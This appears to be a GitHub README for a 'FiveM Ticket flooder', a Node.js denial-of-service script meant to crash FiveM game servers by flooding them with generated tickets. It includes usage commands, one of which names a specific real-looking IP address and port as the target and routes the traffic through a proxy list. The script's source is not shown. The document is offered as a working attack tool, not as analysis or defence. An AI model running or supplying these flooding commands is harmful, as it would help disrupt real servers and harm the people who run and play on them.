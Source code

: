 <h2>FiveM Ticket flooder</h2>

<h3>Coded by forky (tg: @yfork)</h3>

<h4>This script can generate FiveM tickets that when flooding causes high CPU load and makes the webserver crash</h4>

<h3>usage</h3><br>

```sh
node fivem.js http://SERVER:30120/client proxy_file duration request_per_proxy
node fivem.js http://216.151.164.20:30120/client http.txt 120 64
```

## Released because skids are using it without my consent
